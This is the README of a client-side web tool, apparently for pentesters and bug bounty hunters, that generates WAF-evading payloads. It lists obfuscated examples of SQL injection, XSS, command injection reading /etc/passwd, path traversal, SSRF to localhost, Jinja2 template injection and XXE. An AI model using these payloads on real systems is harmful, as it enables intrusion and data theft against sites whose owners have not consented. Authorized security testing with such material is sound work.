

# 🛡️ WAF Bypass Toolkit — Web Payload Obfuscator

A **Swiss Army Knife** for Web Application Firewall bypass — built with React & Vite. Designed for **Web Pentesters** and **Bug Bounty Hunters** to generate obfuscated web payloads that evade WAFs like Cloudflare, AWS WAF, and ModSecurity.

> ⚡ 100% Client-Side — No data leaves your browser. No backend. No API calls.


### 🔗 [Live Tool → waf-bypass.dev](https://waf-bypass.dev)

---

## 📸 Screenshot



---

## 🎯 Features

- **7 Vulnerability Categories** with dedicated evasion engines
- **Multiple evasion layers** per category with toggle controls
- **5-12 bypass variants** generated per payload
- **Copy-paste ready** for Burp Suite / Repeater
- **Target-specific** payloads (MySQL, Linux, PHP, Jinja2, etc.)
- **Dark hacker theme** with responsive design
- **Zero dependencies** on external APIs

---

## 💉 Supported Categories & Evasion Techniques

### 1. SQL Injection (SQLi)
| Layer | Example |
|-------|---------|
| Whitespace Bypass | `UNION/**/SELECT` , `UNION%0aSELECT` |
| Case Toggling | `uNiOn SeLeCt` |
| Inline Comments | `/*!50000UNION*//*!50000SELECT*/` |
| Hex Encoding | `SELECT 0x61646d696e` |
| URL Encoding | `%55%4e%49%4f%4e` |
| Double URL Encoding | `%2555%254e%2549%254f%254e` |

**Targets:** MySQL, PostgreSQL, MSSQL, Oracle, SQLite

### 2. Cross-Site Scripting (XSS)
| Layer | Example |
|-------|---------|
| HTML Entities | `&#x3C;script&#x3E;` |
| URL Encoding | `%3Cscript%3E` |
| JS Obfuscation | `window['al'+'ert'](1)` |
| Tag Variation | `<svg/onload=alert(1)>` |
| Case Toggling | `<ScRiPt>` |
| Mixed Encoding | HTML + JS Unicode |

**Targets:** HTML Context, JS Context, Attribute Context

### 3. OS Command Injection (CMDi)
| Layer | Example |
|-------|---------|
| Space Bypass | `cat${IFS}/etc/passwd` |
| Keyword Bypass | `c''a''t`, `c$@at` |
| Newline Injection | `%0acat /etc/passwd` |
| Variable Expansion | `$(echo Y2F0|base64 -d)` |
| Hex Commands | `$(printf '\x63\x61\x74')` |

**Targets:** Linux, Windows

### 4. LFI / Path Traversal
| Layer | Example |
|-------|---------|
| Double URL Encoding | `%252e%252e%252f` |
| Unicode Encoding | `..%c0%af`, `%u002e` |
| Null Byte | `../etc/passwd%00.jpg` |
| Path Normalization | `....//`, `..;/` |
| PHP Wrapper | `php://filter/convert.base64-encode/...` |

**Targets:** PHP, Java, .NET, Generic

### 5. Server-Side Request Forgery (SSRF)
| Layer | Example |
|-------|---------|
| IP Decimal | `http://2130706433` |
| IP Hex | `http://0x7f000001` |
| IP Octal | `http://0177.0000.0000.0001` |
| IP Short | `http://127.1`, `http://0/` |
| URL Tricks | `http://evil@127.0.0.1` |
| DNS Redirect | `127.0.0.1.nip.io` |

**Targets:** HTTP, Cloud Metadata

### 6. Server-Side Template Injection (SSTI)
| Layer | Example |
|-------|---------|
| String Concat | `{{ self['__cla'+'ss__'] }}` |
| Hex Encoding | `{{ self['\x5f\x5fclass\x5f\x5f'] }}` |
| Attr Access | `{{ self\|attr("__class__") }}` |
| Filter Bypass | `` |

**Targets:** Jinja2, Twig, Freemarker

### 7. XML External Entity (XXE)
| Layer | Example |
|-------|---------|
| UTF-16 Encoding | Re-encode XML as UTF-16 |
| UTF-7 Encoding | Encode ENTITY/SYSTEM keywords |
| Entity Nesting | Parameter entity indirection |
| CDATA Wrapping | `<![CDATA[` payload `]]>` |

**Targets:** Generic XML, PHP, Java

---

## 🚀 Quick Start

```bash
# Clone the repository
git clone https://github.com/Ilias1988/waf-bypass.git
cd waf-bypass

# Install dependencies
npm install

# Start development server
npm run dev

# Build for production
npm run build
```

---

## 🏗️ Project Structure

```
WAF-Bypass-Toolkit/
├── src/
│   ├── App.jsx                    # Main application
│   ├── data/
│   │   └── techniques.js          # Categories, targets, layers config
│   ├── engines/
│   │   ├── sqli.js                # SQL Injection engine
│   │   ├── xss.js                 # XSS engine
│   │   ├── cmdi.js                # Command Injection engine
│   │   ├── lfi.js                 # LFI / Path Traversal engine
│   │   ├── ssrf.js                # SSRF engine
│   │   ├── ssti.js                # SSTI engine
│   │   └── xxe.js                 # XXE engine
│   ├── hooks/
│   │   └── useWafBypass.js        # Main state management
│   ├── components/
│   │   ├── layout/                # Header, Footer
│   │   ├── panels/                # CategorySelector, Input, Output, Options
│   │   └── ui/                    # CopyButton, Toast
│   └── utils/
│       ├── encoding.js            # Encoding functions
│       └── helpers.js             # Utility helpers
├── index.html
├── tailwind.config.js
├── vite.config.js
└── package.json
```

---

## 🔧 Tech Stack

- **React 18** — Component-based UI
- **Vite 5** — Lightning-fast build tool
- **Tailwind CSS 3** — Utility-first styling
- **Lucide React** — Beautiful icons
- **100% Client-Side** — Zero backend

---

## ⚠️ Disclaimer

This tool is intended for **authorized penetration testing**, **bug bounty programs**, and **security research** only. Unauthorized use against systems you do not own or have explicit permission to test is **illegal**. The authors assume no liability for misuse.

---

## 📄 License

MIT License — See [LICENSE](LICENSE) for details.

---

## 🤝 Contributing

Contributions are welcome! Feel free to:
- Add new evasion techniques
- Support new vulnerability categories
- Improve existing engines
- Fix bugs or improve UI

---

**Made with ❤️ for the InfoSec community**
